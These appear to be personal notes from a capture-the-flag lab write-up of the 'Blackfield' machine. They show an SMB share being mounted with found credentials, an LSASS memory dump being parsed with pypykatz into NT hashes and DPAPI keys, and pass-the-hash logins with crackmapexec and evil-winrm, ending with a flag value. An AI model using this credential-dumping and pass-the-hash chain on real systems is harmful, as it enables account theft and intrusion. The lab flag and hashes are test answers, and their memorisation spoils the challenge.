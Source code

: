 
![[Pasted image 20231118134158.png]]
![[Pasted image 20231118134221.png]]

Got a new user
```
Ipwn3dYouCompany
```

Now i have thing for sure that memory seems sus to me let's enumerate it more
Through enumeration and googling found about lsass
What is an LSASS dump?

Adversaries commonly abuse the Local Security Authority Subsystem Service (LSASS) to **dump credentials for privilege escalation, data theft, and lateral movement**.

Let me unzip that file see what we can get it from there as we are no able to secret dump it using either support or audit2020



As we are not able to download the file cuz it's large in size one thing we can do it to mount it and cp the file that way or simply perform the operation in the mount itself
```
cme smb 10.10.10.192 -u 'audit2020' -p '#00^BlackKnight' --shares
```
![[Pasted image 20231118174113.png]]

```
mount -t cifs -o 'username=audit2020,password=#00^BlackKnight' //10.10.10.192/forensic /mnt
```
![[Pasted image 20231118174743.png]]

Will try to copy the file 
```
cp lsass.zip ~root/Active_Directory/Blackfield 
```
One thing i have noticed that if we are not able to run the unzip file either the file is corrupted or the file is incomplete which means we are not able to download it completely.
![[Pasted image 20231118175121.png]]
Finally able to unzip it which means we can finally run the pypykatz command 

https://www.whiteoaksecurity.com/blog/attacks-defenses-dumping-lsass-no-mimikatz/
https://en.hackndo.com/remote-lsass-dump-passwords/
```
pypykatz lsa minidump lsass.dmp
```

![[Pasted image 20231118175330.png]]

The command run in a second
```
pypykatz lsa minidump lsass.DMP 

username svc_backup
domainname BLACKFIELD
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406458
        == MSV ==
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
                DPAPI: a03cd8e9d30171f3cfe8caad92fef621
        == WDIGEST [633ba]==
                username svc_backup
                domainname BLACKFIELD
                password None
                password (hex)
        == Kerberos ==
                Username: svc_backup
                Domain: BLACKFIELD.LOCAL
        == WDIGEST [633ba]==
                username svc_backup
                domainname BLACKFIELD
                password None
                password (hex)

username Administrator
domainname BLACKFIELD
sid S-1-5-21-4194615774-2175524697-3563712290-500
luid 153705
        == MSV ==
                Username: Administrator
                Domain: BLACKFIELD
                LM: NA
                NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
                SHA1: db5c89a961644f0978b4b69a4d2a2239d7886368
                DPAPI: 240339f898b6ac4ce3f34702e4a89550
        == WDIGEST [25869]==
                username Administrator
                domainname BLACKFIELD
                password None
                password (hex)
        == Kerberos ==
                Username: Administrator
                Domain: BLACKFIELD.LOCAL
        == WDIGEST [25869]==
                username Administrator
                domainname BLACKFIELD
                password None
                password (hex)
        == DPAPI [25869]==
                luid 153705
                key_guid d1f69692-cfdc-4a80-959e-bab79c9c327e
                masterkey 769c45bf7ceb3c0e28fb78f2e355f7072873930b3c1d3aef0e04ecbb3eaf16aa946e553007259bf307eb740f222decadd996ed660ffe648b0440d84cd97bf5a5
                sha1_masterkey d04452f8459a46460939ced67b971bcf27cb2fb9


username svc_backup
domainname BLACKFIELD
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406499
        == MSV ==
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
                DPAPI: a03cd8e9d30171f3cfe8caad92fef621
        == WDIGEST [633e3]==
                username svc_backup
                domainname BLACKFIELD
                password None
                password (hex)
        == Kerberos ==
                Username: svc_backup
                Domain: BLACKFIELD.LOCAL
        == WDIGEST [633e3]==
                username svc_backup
                domainname BLACKFIELD
                password None
                password (hex)
        == DPAPI [633e3]==
                luid 406499
                key_guid 836e8326-d136-4b9f-94c7-3353c4e45770
                masterkey 0ab34d5f8cb6ae5ec44a4cb49ff60c8afdf0b465deb9436eebc2fcb1999d5841496c3ffe892b0a6fed6742b1e13a5aab322b6ea50effab71514f3dbeac025bdf
                sha1_masterkey 6efc8aa0abb1f2c19e101fbd9bebfb0979c4a991


== LogonSession ==
authentication_id 999 (3e7)
session_id 0
username DC01$
domainname BLACKFIELD
logon_server 
logon_time 2020-02-23T17:57:44.913221+00:00
sid S-1-5-18
luid 999
        == WDIGEST [3e7]==
                username DC01$
                domainname BLACKFIELD
                password None
                password (hex)
        == Kerberos ==
                Username: dc01$
                Domain: BLACKFIELD.LOCAL
        == WDIGEST [3e7]==
                username DC01$
                domainname BLACKFIELD
                password None
                password (hex)
        == DPAPI [3e7]==
                luid 999
                key_guid 0f7e926c-c502-4cad-90fa-32b78425b5a9
                masterkey ebbb538876be341ae33e88640e4e1d16c16ad5363c15b0709d3a97e34980ad5085436181f66fa3a0ec122d461676475b24be001736f920cd21637fee13dfc616
                sha1_masterkey ed834662c755c50ef7285d88a4015f9c5d6499cd
        == DPAPI [3e7]==
                luid 999
                key_guid f611f8d0-9510-4a8a-94d7-5054cc85a654
                masterkey 7c874d2a50ea2c4024bd5b24eef4515088cf3fe21f3b9cafd3c81af02fd5ca742015117e7f2675e781ce7775fcde2740ae7207526ce493bdc89d2ae3eb0e02e9
                sha1_masterkey cf1c0b79da85f6c84b96fd7a0a5d7a5265594477
        == DPAPI [3e7]==
                luid 999
                key_guid 31632c55-7a7c-4c51-9065-65469950e94e
                masterkey 825063c43b0ea082e2d3ddf6006a8dcced269f2d34fe4367259a0907d29139b58822349e687c7ea0258633e5b109678e8e2337d76d4e38e390d8b980fb737edb
                sha1_masterkey 6f3e0e7bf68f9a7df07549903888ea87f015bb01
        == DPAPI [3e7]==
                luid 999
                key_guid 7e0da320-072c-4b4a-969f-62087d9f9870
                masterkey 1fe8f550be4948f213e0591eef9d876364246ea108da6dd2af73ff455485a56101067fbc669e99ad9e858f75ae9bd7e8a6b2096407c4541e2b44e67e4e21d8f5
                sha1_masterkey f50955e8b8a7c921fdf9bac7b9a2483a9ac3ceed

```

```
crackmapexec smb 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```
![[Pasted image 20231118180544.png]]

```
cme smb 10.10.10.192 -u 'svc_backup' -H 9658d1d1dcd9250115e2205d9f48400d --shares
```
![[Pasted image 20231118181122.png]]

Administrator hash didn't worked
![[Pasted image 20231118181400.png]]

Got the initial Access
```
evil-winrm -i 10.10.10.192 -P 5985 -u svc_backup -H '9658d1d1dcd9250115e2205d9f48400d'
```
![[Pasted image 20231118181613.png]]

```
3920bb317a0bef51027e2852be64b543
```
